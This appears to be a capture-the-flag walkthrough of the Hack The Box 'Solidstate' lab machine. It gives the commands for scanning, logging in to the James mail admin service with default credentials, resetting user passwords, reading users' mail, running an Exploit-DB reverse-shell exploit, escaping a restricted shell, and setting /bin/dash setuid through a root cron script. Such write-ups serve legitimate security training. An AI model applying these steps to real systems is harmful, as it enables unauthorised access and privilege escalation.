 # Solidstate Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA solidstate -T4 10.10.10.51``

![image](https://user-images.githubusercontent.com/123066149/230373146-769483c1-1080-4aa6-b1f0-bfee7acb3f3c.png)

``nmap -p- -sV -T4 -oA fullsolidstate 10.10.10.51``

![image](https://user-images.githubusercontent.com/123066149/230373494-4ff167f4-d678-428b-acd2-7dfb3406278b.png)

### We have a web site on the box but only html file on this :

![image](https://user-images.githubusercontent.com/123066149/230373805-dc88933b-0102-4584-84d3-e49fbf4c8ba6.png)

### After a litle research on google i have that :

![image](https://user-images.githubusercontent.com/123066149/230373962-cdde3e6f-c6a3-4296-8eb2-0ed4262635c6.png)

![image](https://user-images.githubusercontent.com/123066149/230374111-3581e0d8-b51f-4947-8a48-bae2d637fbf1.png)

### A litle telnet on the port 4555 :

``telnet 10.10.10.51 4555``

### Default cred's root and root :

![image](https://user-images.githubusercontent.com/123066149/230374604-73a6dc48-7298-48b6-a306-72070fef6ac9.png)

### I list all users and change all passwords :

![image](https://user-images.githubusercontent.com/123066149/230375398-c26e072a-1d55-45b7-8e3f-089011282ac8.png)

# ${{\color{purple}Initial Foothold}}\ $

### I tested this exploit but as we see we need a valid ssh creds :

https://www.exploit-db.com/exploits/50347

``python james_server_exploit.py 10.10.10.51 10.10.14.8 4444``

![image](https://user-images.githubusercontent.com/123066149/230375918-3f1101f0-9bc6-462e-8017-38f2ae86a442.png)

### We have some users and passwords we can check the email :

``telnet 10.10.10.51 110``

``USER mindy``

``PASS pass``

``LIST``

``RETR 1``

``RETR 2``

![image](https://user-images.githubusercontent.com/123066149/230377842-b49f52ff-eeee-4169-a62a-1f65c016b112.png)

![image](https://user-images.githubusercontent.com/123066149/230377539-76b8e733-410f-435b-a9d6-22d375a36829.png)

# ${{\color{purple}Exploitation}}\ $

### We are in restricted shell :

![image](https://user-images.githubusercontent.com/123066149/230378344-b1706a89-c52c-47cc-b146-e3b15980fa99.png)

### We can bypass that with thie commande :

``ssh mindy@10.10.10.51 -t "bash --noprofile"``

![image](https://user-images.githubusercontent.com/123066149/230378527-a3a1b4a6-6f69-46ca-8f46-c869eee20f31.png)

# ${{\color{purple}Privilege Escalation}}\ $

### After my enumeration i found this script :

![image](https://user-images.githubusercontent.com/123066149/230378975-d4df5a28-03e3-4040-95c5-0ff5b3d5b2d4.png)

### Pspy confirm me that this script run with a crontab :

![image](https://user-images.githubusercontent.com/123066149/230383159-98abc3b3-cb09-4f3a-8dcd-65f64fb1c8f2.png)

![image](https://user-images.githubusercontent.com/123066149/230382964-32169402-f2b1-4cf8-8b25-64b0e55678cf.png)

### We can edit the script and execute command :
### But regular rev shell are not working we have /bin/dash on the machine we will ad chmod 4755 to this binary :

``os.system('chmod 4755 /bin/dash')``

![image](https://user-images.githubusercontent.com/123066149/230384009-2578821d-9f32-483f-95fd-debe8e5cb87e.png)

``date``

``ls -lah /bin/dash``

![image](https://user-images.githubusercontent.com/123066149/230384123-a6526df4-21bd-48cc-b2df-bb13f070ff59.png)

![image](https://user-images.githubusercontent.com/123066149/230384619-80051ff2-7aab-4595-9208-5a80f9326f52.png)

``/bin/dash``

### And we are root :
 
![image](https://user-images.githubusercontent.com/123066149/230385136-1a3f0f26-5b4a-4cb4-ba99-e07374157c21.png)


# ${{\color{purple}Points of Improvement}}\ $
